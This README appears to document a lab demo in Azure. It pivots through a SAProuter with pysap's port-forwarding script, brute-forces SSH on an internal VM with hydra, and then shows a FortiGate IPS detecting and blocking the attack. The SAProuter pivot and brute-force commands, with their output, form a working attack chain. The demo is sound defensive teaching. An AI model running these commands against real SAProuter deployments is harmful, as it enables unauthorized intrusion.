 # How-to: Demo Environment

In this documentation you will find a guideline how the demo can be done.

### Communication diagram

```text
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |--------------->|                |                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |----------------------------------->|          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |<-----------------------------------|          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |<---------------|                |                   |          
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'

```



## Deplyoment

Deploy the Lab Enviroment in Azure.

```bash
$ terraform init
...[snip]...
$ terraform apply --var-file variables.tfvars -auto-approve
...[snip]...
Outputs:

FGT-Username = "fgt-admin-user"
OS-Username = "saprouter-demo-admin"
Password = "<REDACTED>"
private_ip_attacker = "10.0.1.5"
private_ip_saprouter = "10.0.2.4"
private_ip_target = "10.0.3.4"
public_ip_attacker = "40.70.40.198"
public_ip_fortigate = "13.68.17.252"
```



## Connect to the Demo Environment

* Connect via SSH to the `attacker-vm`

```bash
$ ssh -i ssh_key.pem saprouter-demo-admin@40.70.40.198
...[snip]...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
saprouter-demo-admin@vm-attacker:~$
```



* check that SAProuter System is running by doing a test connect via netcat against Port 3299 on the `saprouter-vm`

```bash
$ nc 10.0.2.4 3299
bla
NI_RTERR(�����*ERR*1Network packet too big-93NI (network interface)75340/bas/753_REL/src/base/ni/nibuf.cpp2961NiBufIIn: message length 1651269898 exceeds max (10024)Mon Apr 26 07:29:22 20213SAProuter 40.4 on 'vm-saprouter'*ERR*
```

The Output should show a similar Error Message from the SAProuter application.

## Run the Demo

### BruteForce SSH through SAProuter

* start the SAProuter portforwarding for SSH to our Target

```bash
$ cd /opt/pysap/examples

$ python2 router_portfw.py -d 10.0.2.4 -p 3299 -t 10.0.3.4 -r 22 -a 127.0.0.1 -l 2222 --talk-mode raw
[*] Setting a proxy between 127.0.0.1:2222 and remote SAP Router 10.0.2.4:3299 (talk mode raw)
```

* validate that we are now listening in port `2222` on `localhost`

```bash
$ ss -tlnp
State       Recv-Q      Send-Q           Local Address:Port           Peer Address:Port     Process
LISTEN      0           4096             127.0.0.53%lo:53                  0.0.0.0:*
LISTEN      0           128                    0.0.0.0:22                  0.0.0.0:*
LISTEN      0           5                    127.0.0.1:2222                0.0.0.0:*         users:(("python2",pid=7808,fd=3))
LISTEN      0           128                       [::]:22                     [::]:*
```

* Do an brute-force against our `target-vm` through the `saprouted-vm`. (This can take about 3-5 min.)

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16983 login tries (l:17/p:999), ~1062 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
...[snip]...
[2222][ssh] host: 127.0.0.1   login: azureuser   password: Sojdlg123aljg
1 of 1 target successfully completed, 1 valid password found
```

### Show attack on FortiGate

* open URL of FortiGate admin panel `https://<IP>`

  ![image-20210428082021361](image-20210428082021361.png)

* Switch to `Log&Report - Forward Traffic` to view the attack traffic

  ![image-20210428083142185](image-20210428083142185.png)
  
  You will see, that FortiGate has detected `SAP.Router` traffic going into `saprouter-vm`but `SSH`traffic is coming out and going to our internal server.

### Prevent Attack

* Enable IPS policy which prevents SSH Bruteforce. Select the IPS profile `block_SSH_bruteforce`

  ![image-20210428084722530](image-20210428084722530.png)

* redo the SSH brute force attack to show, that our IPS will block the SSH attempts after some tries. This time it will never be successfull because IPS is blocking the attempts. So you can abort the attack after about 3 min.

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 145.00 tries/min, 145 tries in 00:01h, 855 to do in 00:06h, 16 active
```



* Show the attack in the IPS log

  ![image-20210428084938213](image-20210428084938213.png)

